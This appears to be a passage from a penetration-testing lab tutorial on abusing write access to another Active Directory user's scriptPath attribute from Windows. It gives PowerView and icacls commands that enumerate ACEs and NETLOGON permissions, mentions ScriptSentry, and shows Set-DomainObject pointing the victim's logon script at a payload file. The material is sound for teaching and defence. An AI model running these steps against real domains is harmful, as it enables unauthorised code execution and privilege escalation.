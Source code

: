 
---
---
## Enumeration from Windows

We will use `PowerView` and `Adalanche` to enumerate the ACEs that `david` has over `eric` from Windows.
### PowerView

After importing the `PowerView` module, we will save the `SID` of `david` into a variable and then use [Get-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/) to get all of `eric`'s ACEs, filtering ones that contain the `SID` of `david` in their `SecurityIdentifier` field:
#### Getting the ACEs of David over Eric

```powershell
PS C:\Users\David\Downloads> Import-Module .\PowerView.ps1
```

```powershell
PS C:\Users\David\Downloads> $DavidSID = (Get-DomainUser -Identity david).objectSID
```

```powershell
PS C:\Users\David\Downloads> Get-DomainObjectAcl -Identity eric -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $DavidSID}
```

In the `ActiveDirectoryRights` field, `PowerView` displays that `david` has `ReadProperty` and `WriteProperty` over the `ObjectAceType` with the value `Script-Path` (which is the attribute's `Common Name`; `scriptPath` is the `LDAP Display Name`); therefore, `david` has `read` and `write` rights on `eric`'s `scriptPath`.

### Adalanche

Installing and running `Adalanche` on Windows is the same as on `Linux`-based systems, given that it compiles to cross-platform binaries that can run on `x86`, `x64`, and `ARM64` architectures. However, using it on Windows can be much simpler because we can run it without supplying any parameters, making it run in "[full auto](https://github.com/lkarlslund/Adalanche?tab=readme-ov-file#easy-mode--full-auto)" mode; in this mode, `Adalanche` attempts to autodetect as many parameters on its own and collects data from the AD environment and then launches its interactive discovery tool automatically.

---
---

## Abusing Write scriptPath from Windows

Exploiting this DACL misconfiguration on Windows is similar to doing so on Linux; however, the only difference lies in Steps 1 and 3: Enumerating the `NETLOGON` share to determine whether `david` has `write` permissions anywhere within it and updating `eric`'s `scriptPath`.

### Step 1

We can use `ls` on the `LOGONSERVER` environment variable followed by `NETLOGON` to list the available folders:

```powershell
PS C:\Users\david> ls $env:LOGONSERVER\NETLOGON


    Directory: \\DC03\NETLOGON


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
<SNIP>
d-----         5/2/2024  12:21 PM                EF0ACCC0DBED
d-----         5/2/2024  12:25 PM                EFD0FF1ABB33
d-----         5/3/2024   6:34 AM                EricsScripts
d-----         5/2/2024  12:23 PM                FECA1DBD30F2
<SNIP>
```

Then, we will use [icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to enumerate the permissions that `david` has on the "EricsScripts" folder:

```powershell
PS C:\Users\david> icacls $env:LOGONSERVER\NETLOGON\EricsScripts

\\DC03\NETLOGON\EricsScripts INLANEFREIGHT\david:(OI)(CI)(RX,W)
                             NT AUTHORITY\Authenticated Users:(I)(RX)
                             NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(GR,GE)
                             BUILTIN\Server Operators:(I)(RX)
                             BUILTIN\Server Operators:(I)(OI)(CI)(IO)(GR,GE)
                             BUILTIN\Administrators:(I)(F)
                             BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                             NT AUTHORITY\SYSTEM:(I)(F)
                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                             CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Similar to `smbcacls`, `icacls` displays that `david` has `R` (`Read`), `W` (`Write`), and `X` (`Execute`) permissions on the folder.

Alternatively, we can use [ScriptSentry](https://github.com/techspence/ScriptSentry), described in the blog post [Hidden Menace: How to Identify Misconfigured and Dangerous Logon Scripts](https://offsec.blog/hidden-menace-how-to-identify-misconfigured-and-dangerous-logon-scripts/), to automate the discovery of misconfigurations in logon scripts, including:

- `Unsafe UNC Folder Permissions`
- `Unsafe UNC File Permissions`
- `Unsafe Logon Script Permissions`
- `Unsafe GPO Logon Script Permissions`
- `Unsafe NETLOGON/SYSVOL Permissions`
- `Plaintext Credentials`

`ScriptSentry` will enumerate for dangerous/unsafe permissions on logon script files within `NETLOGON`. After running `Invoke-ScriptSentry.ps1` (found within `C:\Tools`), we discover that the user `daniel` has `Read`, `Write`, and `Execute` on the logon script 'logonScript.bat', and that the logon script 'scriptShare.cmd' contains plaintext credentials:
#### Running Invoke-ScriptSentry

```powershell
PS C:\Tools> .\Invoke-ScriptSentry.ps1
```

### Step 3

To modify `eric`'s `scriptPath`, we can use `PowerView`.

#### Set-DomainObject

After importing the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module, we will use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/), passing to the `scriptPath` and the location of our payload file:

```powershell
PS C:\Users\David> Import-Module .\PowerView.ps1
PS C:\Users\David> Set-DomainObject eric -Set @{'scriptPath'='EricsScripts\logonScript.bat'}
```

To ensure that `PowerView` updated the attribute accordingly, we will use [Get-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/) and pass `scriptPath` for the `-Properties` flag:

```powershell
PS C:\Users\David> Get-DomainObject eric -Properties scriptPath
```

From `PowerView`'s output, we will know it has successfully updated the attribute.

